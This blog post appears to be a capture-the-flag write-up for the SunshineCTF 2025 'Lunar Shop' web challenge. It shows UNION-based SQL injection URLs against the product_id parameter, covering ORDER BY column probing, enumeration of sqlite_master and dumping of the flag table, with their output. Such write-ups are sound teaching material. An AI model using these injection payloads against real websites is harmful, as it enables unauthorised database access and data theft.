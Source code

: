 ```yaml
---
layout: post
title:  "Lunar Shop"
date:   2025-09-29 13:04:43 -0400
author: robo.uzi
tags: [ctf]
permalink: /sunshine-2025-lunar-shop/
---
```


**Title:** Lunar Shop

**Category:** web

**Author:** alimuhammadsecured

**Description:** We have amazing new products for our gaming service! Unfortunately we don't sell our unreleased flag product yet !

> Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate limiting!

[https://meteor.sunshinectf.games](https://meteor.sunshinectf.games)

I visit the site and see this source code:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>LunarShop 🚀</title>
</head>

<body>
    <header>
        <h1>LunarShop 🌌</h1>
        <p class="tagline">Space-themed game services & cosmic products just for you</p>
    </header>
    <main>
        <p> Welcome to <strong>LunarShop</strong> — the intergalactic marketplace where explorers, hackers, and dreamers can browse stellar products. From rocket fuel for your next mission 🚀 to rare moon rocks 🌑, we’ve got you covered. </p>
        <div class="cta"> <a href="[/products](view-source:https://meteor.sunshinectf.games/products)" class="button">View Products</a> </div>
    </main>
    <footer> ✨ Powered by stardust ✨ </footer>
</body>

</html>
```

I click view product and I can view products listed at `https://meteor.sunshinectf.games/product?product_id=1`. I can see products from id 1-11.

I visit `https://meteor.sunshinectf.games/product?product_id=11%20ORDER%20BY%201` and go from `ORDER BY 1` to `ORDER BY 5` where it errors. I now know there are 4 columns.

I visit `https://meteor.sunshinectf.games/product?product_id=11%20UNION%20SELECT%20NULL,name,NULL,NULL%20FROM%20sqlite_master%20WHERE%20type=%27table%27--` and see the second column holds the flag:
```shell
# 11 UNION SELECT NULL,name,NULL,NULL FROM sqlite_master WHERE type='table'--
# Available Space Products 🚀

|ID|Name|Description|Price|
|---|---|---|---|
|None|flag|None|None|
```

Dump it contents to get the flag. Visit `https://meteor.sunshinectf.games/product?product_id=11%20UNION%20SELECT%20NULL%2Cflag%2CNULL%2CNULL%20FROM%20flag--`:
```shell
# 11 UNION SELECT NULL,flag,NULL,NULL FROM flag--
# Available Space Products 🚀

|ID|Name|Description|Price|
|---|---|---|---|
|None|sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}|None|None|
```
`sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}`